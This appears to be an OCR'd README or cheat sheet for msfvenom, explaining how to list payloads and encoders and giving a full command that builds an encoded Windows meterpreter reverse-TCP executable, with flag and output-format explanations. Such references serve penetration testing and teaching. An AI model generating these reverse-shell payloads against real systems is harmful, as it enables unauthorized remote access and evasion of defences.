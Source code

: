   ```bash
Use `-l` to list the payloads
```bash
msfvenom -l payloads
```

#### Encoders
```bash
msfvenom -l encoders
```

##### Example Command
```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=<Your IP> LPORT=<Your Port> -b "\x00" -e x86/shikata_ga_nai -i 5 -f exe > output.exe
```

###### Architecture
`-a x86`: Specifies the architecture of the payload. You can also try
+ `x64` For 64-bit systems.
+ `armle` For little-endian ARM systems.
+ `mipsbe` For big-endian MIPS systems.

###### Platform
`--platform Windows`: Specifies the platform of the payload. You can also try
+ `Linux`: For Linux systems.
+ `Android`: For Android devices.
+ `OSX`: For Apple’s macOS systems.

###### Payload
`-p windows/meterpreter/reverse_tcp`: Specifies the payload to generate.

###### LHOST
`LHOST=<Your IP>`: Sets the IP address for the payload to connect back to.

###### LPORT
`LPORT=<Your Port>`: Sets the port for your system to listen on.

###### Characters to avoid
`-b "\x00"`: Specifies a list of characters to avoid in the payload. Also can try: 

- `-b "\x00"`: Avoid characters in the payload.
- `\x00`: Null byte; terminates strings.
- `\x0A`: Line feed; can end commands in UNIX.
- `\x0D`: Carriage return; signals end of data in Windows.
- `\x20`: Space; can alter script or command behavior.

`-e x86/shikata_ga_nai`: Specifies the encoder to use on the payload.

###### Payload Format
See: `msfvenom --help-formats`

- `-f exe`: Windows executable format, ideal for direct execution on Windows systems.
- `-f elf`: ELF binary for Linux systems.
- `-f war`: Java Web Archive, targets Java-based server applications.
- `-f asp`: ASP script for older IIS servers.
- `-f php`: PHP script for web servers supporting PHP execution.
- `-f python`: Python script for systems with Python available.
- `-f js_be`: JavaScript for browser exploit scenarios.
- `-f raw`: Raw shellcode for direct injection or exploit development.
- `-f dll`: Windows Dynamic Link Library, suitable for DLL injection/hijacking.
